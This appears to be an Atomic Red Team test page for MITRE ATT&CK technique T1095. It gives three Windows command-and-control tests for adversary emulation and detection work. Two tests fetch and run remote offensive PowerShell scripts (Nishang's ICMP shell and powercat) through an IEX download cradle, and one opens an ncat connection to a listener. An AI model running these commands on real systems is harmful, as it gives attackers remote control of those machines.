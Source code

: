# T1095 - Non-Application Layer Protocol
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1095)
<blockquote>Adversaries may use a non-application layer protocol for communication between host and C2 server or among infected hosts within a network. The list of possible protocols is extensive.(Citation: Wikipedia OSI) Specific examples include use of network layer protocols, such as the Internet Control Message Protocol (ICMP), transport layer protocols, such as the User Datagram Protocol (UDP), session layer protocols, such as Socket Secure (SOCKS), as well as redirected/tunneled protocols, such as Serial over LAN (SOL).

ICMP communication between hosts is one example.(Citation: Cisco Synful Knock Evolution)
 Because ICMP is part of the Internet Protocol Suite, it is required to be implemented by all IP-compatible hosts; (Citation: Microsoft ICMP) however, it is not as commonly monitored as other Internet Protocols such as TCP or UDP and may be used by adversaries to hide communications.</blockquote>

## Atomic Tests

- [Atomic Test #1 - ICMP C2](#atomic-test-1---icmp-c2)

- [Atomic Test #2 - Netcat C2](#atomic-test-2---netcat-c2)

- [Atomic Test #3 - Powercat C2](#atomic-test-3---powercat-c2)


<br/>

## Atomic Test #1 - ICMP C2
This will attempt to  start C2 Session Using ICMP. For information on how to set up the listener
refer to the following blog: https://www.blackhillsinfosec.com/how-to-c2-over-icmp/

**Supported Platforms:** Windows


**auto_generated_guid:** 0268e63c-e244-42db-bef7-72a9e59fc1fc





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| server_ip | The IP address of the listening server | string | 127.0.0.1|


#### Attack Commands: Run with `powershell`! 


```powershell
IEX (New-Object System.Net.WebClient).Downloadstring('https://raw.githubusercontent.com/samratashok/nishang/c75da7f91fcc356f846e09eab0cfd7f296ebf746/Shells/Invoke-PowerShellIcmp.ps1')
Invoke-PowerShellIcmp -IPAddress #{server_ip}
```






<br/>
<br/>

## Atomic Test #2 - Netcat C2
Start C2 Session Using Ncat
To start the listener on a Linux device, type the following: 
nc -l -p <port>

**Supported Platforms:** Windows


**auto_generated_guid:** bcf0d1c1-3f6a-4847-b1c9-7ed4ea321f37





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| server_port | The port for the C2 connection | integer | 80|
| ncat_exe | The location of ncat.exe | path | $env:TEMP&#92;T1095&#92;nmap-7.80&#92;ncat.exe|
| ncat_path | The folder path of ncat.exe | path | $env:TEMP&#92;T1095|
| server_ip | The IP address or domain name of the listening server | string | 127.0.0.1|


#### Attack Commands: Run with `powershell`! 


```powershell
cmd /c #{ncat_exe} #{server_ip} #{server_port}
```




#### Dependencies:  Run with `powershell`!
##### Description: ncat.exe must be available at specified location (#{ncat_exe})
##### Check Prereq Commands:
```powershell
if( Test-Path "#{ncat_exe}") {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
New-Item -ItemType Directory -Force -Path #{ncat_path} | Out-Null
$parentpath = Split-Path (Split-Path "#{ncat_exe}"); $zippath = "$parentpath\nmap.zip"
Invoke-WebRequest  "https://nmap.org/dist/nmap-7.80-win32.zip" -OutFile "$zippath"
  Expand-Archive $zippath $parentpath -Force
  $unzipPath = Join-Path $parentPath "nmap-7.80"
if( $null -eq (Get-ItemProperty HKLM:\Software\Microsoft\Windows\CurrentVersion\Uninstall\* | ?{$_.DisplayName -like "Microsoft Visual C++*"}) ) {
  Start-Process (Join-Path $unzipPath "vcredist_x86.exe")
}
```




<br/>
<br/>

## Atomic Test #3 - Powercat C2
Start C2 Session Using Powercat
To start the listener on a Linux device, type the following: 
nc -l -p <port>

**Supported Platforms:** Windows


**auto_generated_guid:** 3e0e0e7f-6aa2-4a61-b61d-526c2cc9330e





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| server_ip | The IP address or domain name of the listening server | string | 127.0.0.1|
| server_port | The port for the C2 connection | integer | 80|


#### Attack Commands: Run with `powershell`! 


```powershell
IEX (New-Object System.Net.Webclient).Downloadstring('https://raw.githubusercontent.com/besimorhino/powercat/ff755efeb2abc3f02fa0640cd01b87c4a59d6bb5/powercat.ps1')
powercat -c #{server_ip} -p #{server_port}
```






<br/>
